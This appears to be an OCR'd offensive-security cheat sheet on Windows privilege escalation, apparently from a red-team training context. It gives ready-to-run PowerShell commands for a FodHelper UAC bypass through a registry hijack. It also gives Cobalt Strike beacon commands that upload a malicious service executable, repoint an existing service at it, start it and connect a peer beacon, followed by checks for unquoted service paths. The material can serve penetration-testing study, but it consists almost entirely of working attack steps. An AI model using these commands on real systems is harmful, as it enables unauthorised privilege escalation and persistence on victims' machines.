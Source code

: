 #### UAC Bypass FodHelper Technique

```
PS C:\Users\Offsec> New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force

PS C:\Users\Offsec> New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force

PS C:\Users\Offsec> C:\Windows\System32\fodhelper.exe
```

### Privilege Escalation Manual Checks

#### Windows Services

```
beacon> run sc query
[...]

beacon> run sc qc 'Some Service'
[...]

beacon> powershell Get-Service | fl
[...]

beacon> powershell 'Some Service' | Get-ServiceAcl | Select-Object -ExpandProperty Access
[...]

# generate service dll in CS - Attacks > Packages > Windows Executable (Stageless) > Output > Windows Service EXE

# upload
beacon> cd \windows\temp
beacon> upload /root/evil-service.exe

# configure
beacon> shell sc config 'Some Service' binPath= "c:\windows\temp\evil-service.exe"

# start
beacon> run sc start 'Some Service'
[...]

# using peer beacon
beacon> connect localhost 4444
```

#### Unquoted Service Paths

```
# list
beacon> shell wmic service get name, pathname
[...]

# check 
beacon> powershell Get-Acl -Path c:\program files\Super Sql\ | fl
[...]
```
